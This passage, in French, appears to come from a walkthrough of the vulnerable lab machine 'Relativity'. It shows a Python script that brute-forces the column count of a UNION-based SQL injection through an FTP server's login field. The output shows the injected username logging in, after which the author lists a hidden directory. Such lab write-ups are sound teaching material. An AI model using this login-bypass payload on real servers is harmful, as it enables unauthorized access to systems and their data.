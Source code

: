 ![Injection SQL, pas de crash](https://raw.githubusercontent.com/devl00p/blog/master/images/relativity3.png)

Bingo ! *Login failed*, pas de déconnexion.  

Maintenant essayons de voir ce que l'on peut faire à l'aide d'une clause UNION.  

Si plusieurs enregistrements remontent, la ligne de notre union peut potentiellement prendre le dessus et on pourrait en quelque sorte tricher sur le contenu de la base.  

Il nous faut d'abord déterminer le nombre de colonnes remontées par la requête, pour cela on va faire un script Python qui teste une puis deux, puis trois et ainsi de suite, colonnes :  

```python
from ftplib import FTP
import sys

for i in range(1,10):
    login = "root')/**/union/**/select/**/" + ','.join(["1" for __ in range(i)]) + "/**/from/**/information_schema.tables;#"
    password = '1'

    ftp = FTP('192.168.1.57')
    try:
        ftp.login(login, password)
    except EOFError:
        print "Failed union with {0} columns".format(i)
        continue
    else:
        print "directory:", ftp.pwd()
        print "No crash with username '{0}'".format(login)
        ftp.quit()
        break
print "done"
```

Résultat obtenu :

```plain
Failed union with 1 columns
Failed union with 2 columns
Failed union with 3 columns
Failed union with 4 columns
Failed union with 5 columns
directory: /
No crash with username 'root')/**/union/**/select/**/1,1,1,1,1,1/**/from/**/information_schema.tables;#'
done
```

Le script est allé bien au delà de nos espérances puisqu'il a réussi à se connecter :)  

On relance le client FTP et on utilise notre nom d'utilisateur très spécial.  

![Connexion au serveur FTP](https://raw.githubusercontent.com/devl00p/blog/master/images/relativity4.png)

Notre exploit a visiblement mis le serveur FTP dans un état un peu particulier car contrairement aux droits affichés on ne peut pas faire un *"cd"* dans le dossier *0f756638e0737f4a0de1c53bf8937a08*. Ce qui n'est pas trop génant puisqu'on peut lister son contenu.  
